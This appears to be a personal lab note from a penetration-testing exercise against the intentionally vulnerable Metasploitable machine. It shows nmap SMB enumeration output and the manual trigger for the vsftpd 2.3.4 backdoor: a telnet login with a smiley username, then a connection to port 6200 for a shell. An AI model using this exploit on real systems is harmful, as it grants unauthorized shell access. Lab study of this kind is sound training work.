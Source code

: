 ```
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: metasploitable
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: metasploitable.localdomain
|_  System time: 2025-06-10T06:31:10-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: METASPLOITABLE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: -3h59m48s, deviation: 2h00m00s, median: -4h59m49s

TRACEROUTE
HOP RTT     ADDRESS
1   1.27 ms 192.168.1.119
```

## Ports

### 21
- anonymous ftp is open
	##### vsftpd 2.3.4 exploit (manual)
- "ctrl+]" then "quit" exit
```
telnet [ip] 21
user username:)
pass fakepass
```
![Pasted image 20250611102847](../zzAttachments/Pasted%20image%2020250611102847.png)
```
telnet 192.168.1.119 6200
whoami;
id;
pwd;
```